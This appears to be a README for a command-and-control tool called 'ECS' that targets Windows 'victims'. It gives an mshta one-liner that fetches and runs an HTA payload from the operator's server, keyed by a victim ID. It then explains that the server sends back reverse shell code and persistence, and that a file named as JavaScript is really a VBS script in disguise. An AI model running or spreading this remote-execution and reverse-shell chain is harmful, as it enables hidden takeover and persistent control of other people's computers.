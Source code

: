 # ECS
![](./ECC.png)

## $\color{cyan} {step1:}$         

$\color{cyan} {\textit{ victim exec the malware or rce on victim :}}$
#### $\color{cyan} {\textit{ For windows:}}$
```powershell  
mshta https://< ecs service url >?uid=< victim uid >&s=1< step number in this > 
``` 
## $\color{cyan} {step 2}$
$\color{cyan} {\textit{ server response to victim the reversshell code and persistant acts and make main persist malware
acuatlly the file in path ecs/statics/js/step1.js is not javascript in truth its vbs script file and main html project is hta app }}$


